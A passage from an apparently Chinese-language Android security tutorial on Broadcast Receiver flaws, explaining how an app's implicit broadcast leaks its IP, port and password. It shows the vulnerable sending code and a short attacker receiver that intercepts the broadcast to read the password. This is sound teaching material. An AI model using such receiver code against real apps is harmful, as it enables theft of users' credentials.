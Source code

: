![](https://bbs.pediy.com/upload/attach/202109/905443_EY6TE3UZBAJQMHX.png)

三、Broadcast Reciver 漏洞原理分析和复习
-----------------------------

### 1. 敏感信息泄漏漏洞

#### [](#（1）原理介绍)（1）原理介绍

```
发送的intent没有明确指定接收者，而是简单的通过action进行匹配，恶意应用便可以注册一个广播接收者嗅探拦截到这个广播，如果这个广播存在敏感数据，就被恶意应用窃取了。

```

#### [](#（2）漏洞复现)（2）漏洞复现

案例 1：

 

我们发现一个目标程序段代码如下：

```
private void d() {
    Intent v1 = new Intent();
    v1.setAction("com.sample.action.server_running");
    v1.putExtra("local_ip",v0.h);
    v1.putExtra("port",v0.i);
    v1.putExtra("code",v0.g);
    v1.putExtra("connected",v0.s);
    v1.putExtra("pwd_predefined",v0.r);
    if(!TextUtils.isEmpty(v0.t)){
        v1.putExtra("connected_usr",v0.t);
    }
    sendBroadcast(v1);
}

```

通过分析得出，该程序通过 intent 隐式传递，并通过 action 匹配发送一个广播，这样系统内其他程序都可以接收到这个广播，然后在广播接收者中编写接收代码，这样我们可以编写攻击代码获取敏感数据信息

```
public void onReceive(Context context,Intent intent){
    String s = null;
    if(intent.getAction().equals("com.sample.action.server_running")){
        String pwd=intent.getStringExtra("connected");
        s="Airdroid => ["+pwd+"]/"+intent.getExtras();
    }
    Toast.makeTest(context,String.format("%sReceived",s),Toast.LENGTH_SHORT).show();
}

```

我们就可以通过广播获取该程序的密码
